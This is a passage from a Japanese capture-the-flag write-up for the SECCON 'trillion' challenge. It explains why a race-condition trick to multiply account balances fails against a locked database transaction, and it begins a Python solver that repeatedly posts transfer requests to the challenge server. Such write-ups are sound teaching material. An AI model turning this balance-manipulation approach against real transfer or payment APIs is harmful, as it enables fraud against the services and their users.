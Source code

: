 結果的に、ユーザーAの`balance`は-10となり、ユーザーB1とユーザーB2の`balance`は20ずつとなる。倍々に増やすことができるので、効率よくお金を貯めることができる、というアプローチである。

今回これがうまくいかないのは、「10円以上であることを確認」「`balance`から指定の量を引く」「`balance`に指定の量を足す」の動作が同一トランザクションで行われており、これらが完了するまでほかのデータベース操作は待機状態になってしまうからである(Atomicity)。

```javascript:index.js
app.post("/api/transfer", { onRequest: auth }, async (req, res) => {
  /* snap */
  try {
    await conn.beginTransaction(); // トランザクション開始

    const [{ 0: { balance } }] = await conn.query("SELECT * FROM users WHERE id = ? FOR UPDATE", [
      req.user.id,
    ]);
    if (amount > balance) {
      throw new Error("Invalid amount");
    }

    await conn.query("UPDATE users SET balance = balance - ? WHERE id = ?", [
      amount,
      req.user.id,
    ]);
    await conn.query("UPDATE users SET balance = balance + ? WHERE name = ?", [
      amount,
      recipientName,
    ]);

    await conn.commit(); // トランザクションを終了
  } catch (err) {
    await conn.rollback(); // トランザクションがうまく行かなかったので、開始前の状態にロールバック
  /* snap */
});
```
:::

### 最終的なコード

```python:solver.py
import requests
import random
import string

  
URL = "http://trillion.seccon.games:3000/"

# 失敗したときに繰り返し実行できるように、すべてのユーザーの最初の8文字はランダムに
key = ''.join(random.choices(string.ascii_lowercase + string.digits, k=8))

def transfer(s, amount, to):
  print("transfer", amount, to[-10:])
  while True:
    # 何かしらの理由で失敗したら成功するまで繰り返す
    try:
      r = s.post(URL + "api/transfer", json={
        "amount": amount,
        "recipientName": to
      })
      print(r.status_code)
      print(r.text)
      if r.status_code == 200:
        break
    except:
      pass

```